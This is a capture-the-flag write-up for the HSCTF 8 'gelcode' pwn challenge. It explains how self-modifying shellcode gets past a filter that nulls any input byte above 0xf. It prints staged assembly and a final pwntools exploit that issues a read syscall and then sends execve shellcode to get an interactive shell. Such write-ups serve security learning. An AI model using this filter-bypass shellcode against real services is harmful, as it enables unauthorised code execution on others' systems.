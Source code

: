 ```yaml
---
layout: post
title:  "gelcode [hsctf8]"
date:   2021-06-26 14:30:00 +0530
categories: pwn shellcode
---
```


Ah yes another shellcoding challenge! It seems impossible at first glance. ASCII value of our input is required to be less than 0xf, or its replaced with a null byte. 

![decompilation_of_main](/images/gelcode/decompilation.png)

So to workaround this constraint we will be writing self-modifying shellcode. But first, here is the register state we are working with:

![register_state](/images/gelcode/regstate.png)

Our aim here is to do a read syscall on our input buffer, so we can give execve shellcode without contrainst. To do that we need to set rdi to 0 (stdin) and rdx to a small value so that we dont go beyond the heap boundary which will fail the syscall. Analysing all possible instructions with depth 3, these seem rather interesting:

`add     DWORD PTR [rdx+rax*1], eax
add     al,0x(0-f)`

With this we can modify our input but the problem is we can add only the index of our input byte to itself. To workarond that we will be using these:

`add    BYTE PTR [rdx+rax*1], cl
add    cl, BYTE PTR [rdx+rax*1]`

This gives us independent control over index and value that is added to our input bytes. But since the value of cl is not what we want, we first have to write shellcode that modifies itself to perform `xor rcx,rcx`. After a bit of head scratching and some quick maths, we have ourselves shellcode to perform, `xor rcx,rcx`.

{% highlight py %}
shell1 = asm("""
    add     al,0xf
    add     al,0xf
    add     al,0x6
    add     DWORD PTR [rdx+rax*1], eax 
    add     DWORD PTR [rdx+rax*1], eax
    add     al,0x1
    add     DWORD PTR [rdx+rax*1], eax
    
    add     al,0x1
    add     DWORD PTR [rdx+rax*1], eax 
    add     DWORD PTR [rdx+rax*1], eax
    add     DWORD PTR [rdx+rax*1], eax 
    add     DWORD PTR [rdx+rax*1], eax
    add     DWORD PTR [rdx+rax*1], eax
    add     al,0xf
    """)+"\x00\x0c\x0b"
{% endhighlight %}<br/>


Now our aim is to get the shellcode to do the following:

`xor rdi,rdi
mov rdx, 0x500
xor eax,eax
syscall`

Since rsi is already set, this will result in a read syscall.
Next we have to set cl to a value that makes it easier for us, since every byte that we want can be represented as `0x18*n+0x(0-f)`, we shall set cl to 0x18 then use the add instruction multiple times until we get our desired byte. The remainder of the byte is directly given as input. Now time to set cl and spam add instructions xD. To keep the writeup short, I shall be appending (x N) at the end of add instructions to the amount of adds used.

{% highlight py %}
shell2 = asm("""
    add    al,0x6
    add    cl, BYTE PTR [rdx+rax*1] (x 6)
    add    al,0xf (x 11)

    add    al,0x5
    add    BYTE PTR [rdx+rax*1], cl (x 3)

    add    al,0x1
    add    BYTE PTR [rdx+rax*1], cl (x 2)

    add    al,0x1
    add    BYTE PTR [rdx+rax*1], cl (x 10)
    
    add    al,0x1
    add    BYTE PTR [rdx+rax*1], cl (x 3)

    add    al,0x1
    add    BYTE PTR [rdx+rax*1], cl (x 8)
    
    add    al,0x1
    add    BYTE PTR [rdx+rax*1], cl (x 8)
    
    add    al,0x5
    add    BYTE PTR [rdx+rax*1], cl (x 2)

    add    al,0x1
    add    BYTE PTR [rdx+rax*1], cl (x 8)
    """) + "\x00\x01\x0f"+"\x00\x07\x02\x00\x05\x00\x00"+"\x01\x00" +asm("syscall")
{% endhighlight %}<br/>

Now time to finish the exploit:

{% highlight py %}
shellcode = shell1 + shell2

payload = shellcode.ljust(999,"A")

sl(payload)

sleep(3)

sl(243*"A"+asm(shellcraft.sh()))

io.interactive()
{% endhighlight %}<br/>